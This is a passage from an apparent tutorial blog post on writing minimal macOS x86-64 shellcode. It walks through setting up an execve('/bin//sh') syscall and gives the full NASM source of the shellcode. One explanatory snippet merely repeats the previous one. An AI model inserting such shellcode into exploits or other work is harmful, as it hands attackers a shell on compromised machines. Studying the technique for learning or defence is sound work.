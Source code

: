 As you can see, we use `bts` to set bit `25` in `eax`. Then `mov al, 59` sets the lower byte, making `eax = 0x200003b`, which is `execve` on macOS.    

At the next step, we push the string directly onto the stack to avoid storing it in the `.data` section. Double slashes are valid: `/bin//sh` is equivalent to `/bin/sh`:    

```nasm
push    rsp              ; push pointer to string
pop     rdi              ; rdi = "/bin//sh"
```

Set up registers for `execve` like this:      

```nasm
push    rsp              ; push pointer to string
pop     rdi              ; rdi = "/bin//sh"
```

This gives us:    

```cpp
execve("/bin//sh", NULL, NULL)
```

Finally, trigger syscall:    

```nasm
syscall
```

If all goes well - we drop into a shell.    

> **Important note about unexpected behavior:** Although POSIX requires `argv != NULL`, and macOS traditionally crashes on `execve(..., NULL, ...)`, recent versions (Sonoma) appear to gracefully accept `NULL argv`, possibly coercing it to `[filename, NULL]`. This is likely a compatibility or security-hardening adjustment.     

So full NASM source code looks like this `hack.asm`:     

```nasm
; hack.asm
; linux-style minimal shellcode
; author: @cocomelonc
; https://cocomelonc.github.io/macos/2025/08/02/malware-mac-7.html
global start

section .text
start:
    bits 64
    xor     esi, esi
    mul     esi
    bts     eax, 25
    mov     al, 59
    mov     rbx, '/bin//sh'
    push    rdx
    push    rbx
    push    rsp
    pop     rdi
    syscall
```
